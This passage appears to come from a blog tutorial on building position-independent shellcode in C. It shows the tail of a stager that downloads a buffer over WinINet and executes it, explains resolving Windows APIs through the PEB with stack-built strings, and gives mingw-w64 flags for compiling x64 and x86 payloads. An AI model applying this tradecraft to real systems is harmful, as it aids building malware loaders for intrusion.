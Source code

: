                 PDWORD lpflOldProtect
                )) _GetProcAddress((HMODULE)base, virtualprotect_name);

        ((void(*)())buff)();

        _InternetCloseHandle(hRequest);
        _InternetCloseHandle(hConnect);
        _InternetCloseHandle(hInternet);

        return 0;
    }
    ```

So that's a lot of code to digest. The first few functions are used to get the address of our Process Environment Block and resolve the address of kernel32.dll, which can then be used to find the addresses of LoadLibrary and GetProcAddress. Once we have those functions, we can resolve functions from any other library. We're using the same exact functions as earlier, except we have to define a prototype for the function so that we can call it. The only other difference is that all of the strings are defined as byte arrays to ensure that they are not compiled away into a different section and instead constructed dynamically on the stack as described [here](https://nickharbour.wordpress.com/2010/07/01/writing-shellcode-with-a-c-compiler/) by Nick Harbour.

## Using some weird mingw-w64 flags

The posts that I linked above already demonstrate how to compile this using the Visual Studio toolchain, but the Metasploit blog post describes how to achieve the same goal with some weird compiler flags. Our PIC can be compiled as follows.

```c
x86_64-w64-mingw32-gcc-win32 shellcode.c -nostdlib -ffunction-sections -fno-ident -fno-asynchronous-unwind-tables -w -O2 -Wl,-e,AlignRSP -o shellcode.exe
```

I'll break down the options used here:

- nostdlib - prevents mingw from including the standard library
- ffunction-sections - tells the compiler to ensure that each function is also placed into the .text section
- fno-ident/fno-asynchronous-unwind-tables - tells the compiler to leave out some extraneous sections
- w - suppresses warnings
- O2 - specifies the optimization level. The Metasploit blog that I linked indicates that this seems to be the level that works with our dynamic strings
- Wl,-e,AlignRSP - This specifies a linker directive that tells the linker to set AlignRSP as our entrypoint

However this is only for x64 payloads. For x86 payloads we need to slightly modify the command.

```c
i686-w64-mingw32-gcc-win32 shellcode.c -nostdlib -ffunction-sections -fno-ident -fno-asynchronous-unwind-tables -w -O2 -Wl,-e,ExecutePayload -o shellcode.exe
```

The only differences here is that we'll call the compiler targeting the i686 architecture instead of x86_64, and we'll set the entrypoint to ExecutePayload instead of AlignRSP. This is because for x86 payloads we do not need to align the stack before executing.
